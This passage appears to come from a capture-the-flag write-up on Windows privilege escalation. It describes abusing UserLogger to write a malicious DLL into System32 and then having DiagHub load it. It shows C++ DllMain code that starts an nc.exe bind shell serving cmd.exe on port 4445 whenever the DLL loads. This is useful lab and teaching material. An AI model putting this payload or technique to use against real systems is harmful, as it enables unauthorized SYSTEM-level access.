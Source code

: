 Given that, I can use this same route to SYSTEM. Both of the arbitrary write
exploits above are patched, but I have UserLogger for the write to SYSTEM32.
So I’ll get my malicious dll to `\windows\system32\0xdf.log`, and then invoke
DiagHub to load it.

#### Set Up

For Windows development, I’ll fire up a Windows VM with Visual Studio
installed. It can take a while to get installed, but it’s worth it over time.
Especially as the current trends in Windows tools is moving away from
PowerShell and towards C#, having a place to modify and compile code for
Windows is very helpful.

Since they are all VMs, I have a folder on my host disk that I share into both
VMs use to pass files back and forth.

#### dll

I showed this process in my post on [COR Profilers
Exploitation](/2019/03/15/htb-ethereal-cor.html#build-one). I’ve also posted
an updated [dll project on my
GitLab](https://gitlab.com/0xdf/ctfscripts/tree/master/rev_shell_dll) which
has a few improvements like taking the host and port to connect back to as
environment variables. For this case, as outbound connections are not allowed,
I’ll have my payload just listen with `nc.exe` as I did for the previous shell
as hacker.

First I’ll create my payload. I’ll open Visual Studio, and go to File > New >
Project. On the left I’ll select Installed > Visual C++ > Windows Desktop.
Then on the right, I’ll select DLL. I’ll give it a name, and hit OK:

![1551751673669](https://0xdfimages.gitlab.io/img/1551751673669.png)

This creates the project, and if I expand the Source Files folder on the
right, I’ll see three .cpp files. I’ll open up `dllmain.cpp`, and add two
lines. First I’ll add `#include <stdlib.h>`, which gives me access to the
`system` function. The, under the case for `DLL_PROCESS_ATTACH`, I’ll add the
a call to start another `nc` listener. `DLL_PROCESS_ATTACH` is the case when a
process loads the DLL, so I can have my shell running on dll load.

    
    
    // dllmain.cpp : Defines the entry point for the DLL application.
    #include "stdafx.h"
    #include <stdlib.h>
    
    BOOL APIENTRY DllMain( HMODULE hModule,
                           DWORD  ul_reason_for_call,
                           LPVOID lpReserved
                         )
    {
        switch (ul_reason_for_call)
        {
        case DLL_PROCESS_ATTACH:
    		system("c:\\windows\\system32\\spool\\drivers\\color\\nc.exe -e cmd.exe -lvp 4445");
        case DLL_THREAD_ATTACH:
        case DLL_THREAD_DETACH:
        case DLL_PROCESS_DETACH:
            break;
        }
        return TRUE;
    }
    